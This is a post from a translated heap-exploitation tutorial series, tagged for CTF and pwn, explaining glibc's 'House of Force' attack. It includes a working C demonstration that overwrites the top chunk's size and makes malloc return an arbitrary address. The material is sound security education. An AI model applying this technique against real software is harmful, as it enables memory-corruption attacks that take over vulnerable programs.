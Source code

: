 ```yaml
---
title: Heap Exploitation系列翻译-15 House of Force
time: 2017-08-12
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```

# House of Force

Similar to 'House of Lore', this attack focuses on returning an arbitrary pointer from 'malloc'. Forging chunks attack was discussed for fastbins and the 'House of Lore' attack was discussed for small bins. The 'House of Force' exploits the 'top chunk'. The topmost chunk is also known as the 'wilderness'. It borders the end of the heap (i.e. it is at the maximum address within the heap) and is not present in any bin. It follows the same format of the chunk structure.

This attack assumes an overflow into the top chunk's header. The `size` is modified to a very large value (`-1` in this example). This ensures that all initial requests will be services using the top chunk, instead of relying on `mmap`. On a 64 bit system, `-1` evaluates to `0xFFFFFFFFFFFFFFFF`. A chunk with this size can cover the entire memory space of the program. Let us assume that the attacker wishes 'malloc' to return address `P`. Now, any malloc call with the size of: `&top_chunk` - `P` will be serviced using the top chunk. Note that `P` can be after or before the `top_chunk`. If it is before, the result will be a large positive value (because size is unsigned). It will still be less than `-1`. An integer overflow will occur and malloc will successfully service this request using the top chunk. Now, the top chunk will point to `P` and any future requests will return `P`!

Consider this sample code (download the complete version [here](/files/heap-exploition/files/house_of_force.c)):

```c
// Attacker will force malloc to return this pointer
char victim[] = "This is victim's string that will returned by malloc"; // At 0x601060

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

struct chunk_structure *chunk, *top_chunk;
unsigned long long *ptr;
size_t requestSize, allotedSize;

// First, request a chunk, so that we can get a pointer to top chunk
ptr = malloc(256);                                                    // At 0x131a010
chunk = (struct chunk_structure *)(ptr - 2);                          // At 0x131a000

// lower three bits of chunk->size are flags
allotedSize = chunk->size & ~(0x1 | 0x2 | 0x4);

// top chunk will be just next to 'ptr'
top_chunk = (struct chunk_structure *)((char *)chunk + allotedSize);  // At 0x131a110

// here, attacker will overflow the 'size' parameter of top chunk
top_chunk->size = -1;       // Maximum size

// Might result in an integer overflow, doesn't matter
requestSize = (size_t)victim            // The target address that malloc should return
                - (size_t)top_chunk     // The present address of the top chunk
                - 2*sizeof(long long)   // Size of 'size' and 'prev_size'
                - sizeof(long long);    // Additional buffer

// This also needs to be forced by the attacker
// This will advance the top_chunk ahead by (requestSize+header+additional buffer)
// Making it point to 'victim'
malloc(requestSize);                                                  // At 0x131a120

// The top chunk again will service the request and return 'victim'
ptr = malloc(100);                                // At 0x601060 !! (Same as 'victim')
```

'malloc' returned an address pointing to `victim`.

Note the following things that we need to take care:

1. While deducing the exact pointer to `top_chunk`, 0 out the three lower bits of the previous chunk to obtain correct size.
2. While calculating requestSize, an additional buffer of around `8` bytes was reduced. This was just to counter the rounding up malloc does while servicing chunks. Incidentally, in this case, malloc returns a chunk with `8` additional bytes than requested. Notice that this is machine dependent.
3. `victim` can be any address (on heap, stack, bss, etc.).
